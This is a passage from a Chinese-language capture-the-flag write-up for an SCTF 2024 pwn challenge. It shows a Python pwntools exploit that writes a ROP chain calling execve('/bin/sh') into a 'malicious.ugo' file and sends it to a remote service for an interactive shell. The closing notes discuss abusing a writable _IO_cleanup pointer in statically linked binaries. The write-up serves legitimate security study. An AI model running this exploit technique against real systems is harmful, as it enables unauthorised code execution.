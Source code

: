 ```python
    ugo += wnbytes(7, 0x4c8298, u64(b'/bin/sh\0')) # /bin/sh
    ugo += wnbytes(4, 0x4c82b8, 0x4020df) # pop rdi
    ugo += wnbytes(8, 0x4c82c0, 0x4c8298) # "/bin/sh"
    ugo += wnbytes(4, 0x4c82c8, 0x485acb) # pop rdx => 0; pop rbx <- check;
    ugo += wnbytes(4, 0x4c82e0, 0x44fd47) # pop rax
    ugo += wnbytes(1, 0x4c82e8, 59)       # 59
    ugo += wnbytes(4, 0x4c82f0, 0x401e94) # syscall
    with open('malicious.ugo', 'w') as goout:
        goout.write(base.replace('INSERT', ugo))
    
def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
    else:
        sh = remote('1.95.58.58', 2102)

    creating = True
    if os.path.exists('malicious.ugo'):
        ch = input('malicious.ugo exists. Regenerate? [y/n]')
        if ch == 'n' or ch == '':
            creating = False
    if creating:
        info('Generate malicious.ugo.')
        create_ugo()

    if not lo:
        with open('malicious.ugo', 'r') as mal:
            src = mal.read()
        sh.sendline(src.encode() + b'end')

    sh.clean()
    sh.interactive()
    sh.close()
```

{% note default fa-flag %}
![flag](/assets/sctf2024/goFlag.png)
{% endnote %}

## 尾声

比赛结束后，看别人的wp，都没有用到`printf`，都是通过`write`溢出打印指针，然后走栈溢出rop
（给了栈溢出示例，但是我没有编译运行）

除此之外，本次exp用到的改的`&_IO_cleanup`，即`__elf_set___libc_atexit_element__IO_cleanup__`，
是可写的，却从未看到有人这么利用过，拿做过的题看了一下，从libc 2.23到2.35，虽然有这个符号，
但它位于只读段，没有利用价值...甚至在2.38之后这个符号直接被删掉了，
`exit`固定会调用`_IO_cleanup`。只能说运气好，静态编译把这个符号变成可写的了。

还有一个比较神奇的特性是当程序静态链接后，tls会使用`malloc`分配出来，因为没有libc可挂
